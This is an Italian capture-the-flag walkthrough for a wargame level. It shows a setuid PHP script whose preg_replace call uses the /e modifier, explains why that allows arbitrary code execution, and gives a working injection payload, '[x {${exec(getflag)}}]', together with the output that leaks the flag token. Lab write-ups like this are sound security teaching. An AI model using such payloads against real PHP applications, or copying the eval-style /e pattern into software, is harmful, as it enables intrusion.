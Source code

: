 # Level06
### 1 passaggio:
Eseguendo il comando `ls -l`:
```bash
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```
Notiamo un file eseguibile `level06` e un file php `level06.php`, l'eseguibile è l'interprete php
mentre nello script php troviamo il seguente codice:
```php
     1  #!/usr/bin/php
     2  <?php
     3  function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
     4  function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e","y(\"\\2\")",$a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
     5  $r = x($argv[1], $argv[2]); print $r;
     6  ?>
```

### 2 passaggio:
Nello script è presente la funzione `preg_replace` estremamente dannosa per l'esecuzione 
di codice arbitrario in php soprattutto se mescolata con l'opzione `/e` proprio come:
```php
$a = preg_replace("/(\[x (.*)\])/e","y(\"\\2\")",$a);
```
Poichè l'opzione `/e` fa in modo che la stringa sostitutiva venga valutata come codice php.

### 3 passaggio:
Con il comando:
```bash
echo '[x {${exec(getflag)}}]' > /tmp/flag ; ./level06 /tmp/flag 42
```
Abbiamo dunque:
```bash
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```
